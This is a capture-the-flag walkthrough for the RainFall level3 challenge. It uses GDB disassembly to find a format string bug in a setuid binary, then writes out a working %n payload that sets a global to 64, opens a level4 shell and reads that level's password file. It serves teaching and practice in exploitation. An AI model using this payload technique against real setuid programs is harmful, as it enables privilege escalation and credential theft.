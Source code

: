 ## Walkthrough

We list the files in the current home directory.

```bash
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 interesting functions: `main()` and `v()`.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The `main()` function only calls the `v()` function.

```nasm
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

The function:

- Calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- Calls `printf()` to print the buffer to stdout
- Retrieves the value of a global variable stored at memory address `0x804988c` into the `%eax` register
- Compares the value of `%eax` with`64` (`0x40` in hexadecimal)
- If the value is equal to `64` :
    - Prints a message using the `fwrite()` function
    - Calls the system’s shell `/bin/sh`  using the `system()` function.

### Format string vulnerability

This function is subjected to a format string vulnerability which occurs when a user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.

Our goal is to overwrite the value of the global variable stored at the address `0x804988c`(the compared to 64) and replace it with the number 64.

The `printf()` function includes the specifier `%n` which writes the number of characters printed so far into the address provided as its corresponding argument. This allows us to overwrite a specific memory address with the number of characters printed by the format string.

### Converting the address

The global variable (whose value is stored in the `%eax` register and compared to `64`) is located at the address `0x804988c`. To properly inject this address into the format string, we need to represent it in **little-endian** format, asthis is how memory addresses are stored on the target system. The little-endian format for the address `0x804988c` is:  `\x8c\x98\x04\x08` .

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

### Overwriting the address

To achieve our goal, we need to craft a string such that the total number of characters printed is `64`. The `%n` specifier will then overwrite the global variable at `0x804988c` with the number `64` (the number of characters printed). Each `%x` will print a 4-byte value, each  `.`  is a 1-byte character and the `%45x` will print 45-byte scharacters (filling with 0 or spaces). This gives us : 

```bash
'.%x.%x.%45x.%n'
```

### Final command
```bash
The final command is :
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '.%x.%x.%45x.%n')"; cat) | ./level3 
�.200.b7fd1ac0.                                     b7ff37d0.
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
